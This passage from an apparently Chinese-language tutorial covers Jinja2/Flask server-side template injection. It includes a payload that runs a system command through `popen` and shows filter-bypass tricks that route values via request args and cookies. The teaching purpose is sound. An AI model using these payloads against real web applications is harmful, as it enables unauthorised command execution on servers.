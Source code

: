 ```bash
{%for i in ''.__class__.__base__.__subclasses__()%}{%if i.__name__ =='_wrap_close'%}{%print i.__init__.__globals__['popen']('dir').read()%}{%endif%}{%endfor%}
```

[![在这里插入图片描述](assets/1698900310-0fa4cb3acb69efba7bfa13847285ac2c.png)](https://storage.tttang.com/media/attachment/2022/08/14/899728a5-39ec-4a4d-84e7-fc8978874e78.png)

## [绕过单引号和双引号](#toc__8)

当单引号和双引号被 ban 时，我们通常采用`request.args.a`，然后给 a 赋值这种方式来进行绕过，举个例子

```bash
{{url_for.__globals__[request.args.a]}}&a=__builtins__  等同于 {{url_for.__globals__['__builtins__']}}
```

[![在这里插入图片描述](assets/1698900310-9cf10e21be98dcc1e0542cd1266a2ade.png)](https://storage.tttang.com/media/attachment/2022/08/14/33d747c3-0806-42ed-8a35-1a36a6e08b25.png)

## [绕过 args](#toc_args)

当使用 args 的方法绕过`'`和`"`时，可能遇见 args 被 ban 的情况，这个时候可以采用`request.cookies`和`request.values`，他们利用的方式大同小异，示例如下

```bash
GET:{{url_for.__globals__[request.cookies.a]}}
COOkie: "a" :'__builtins__'
```
